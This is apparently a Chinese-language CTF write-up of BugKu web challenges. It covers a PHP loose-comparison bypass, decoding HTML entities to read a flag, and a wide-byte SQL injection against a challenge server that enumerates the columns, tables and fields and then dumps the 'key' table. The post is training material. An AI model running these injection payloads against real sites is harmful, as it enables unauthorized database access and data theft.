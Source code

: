 title: BugKu的web题
author: Qianye
abbrlink: e1368ef8
tags:
  - ctf
categories:
  - ctf
date: 2018-03-03 22:30:00
---
一个真心觉得挺好的平台，挺照顾小白的，题多，知识点涉及范围广，可以学到很多。


[BugKu](http://ctf.bugku.com/)

# 矛盾
```bash
$num=$_GET['num'];
if(!is_numeric($num))
{
echo $num;
if($num==1)
echo 'flag{**********}';
}
```
payload
```bash
?num=1a
```
# web3
在游览器中禁止javascript的运行，查看源码可得
```bash
&#75;&#69;&#89;&#123;&#74;&#50;&#115;&#97;&#52;&#50;&#97;&#104;&#74;&#75;&#45;&#72;&#83;&#49;&#49;&#73;&#73;&#73;&#125;
```
进行unicode解码
# sql注入
查看源码注意到 `gb2312`编码，易知识宽字节注入。一开始直接用#，一直显示不出结果。
判断字段数
```bash
103.238.227.13:10083/?id=1%df' order by 2 %23
```
查看回显
```bash
103.238.227.13:10083/?id=1%df' union select 1,2 %23
```
得到表名
```bash
103.238.227.13:10083/?id=1%df' union select 1, (select group_concat(table_name) from information_schema.tables where table_schema=database() )%23
```
字段名
```bash
103.238.227.13:10083/?id=1%df' union select 1, (select group_concat(column_name) from information_schema.columns where table_name=0x6B6579 )%23
```
脱裤
```bash
103.238.227.13:10083/?id=1%df' union select 1, (select group_concat(id,0x23,string) from `key`)%23
```
# 域名解析
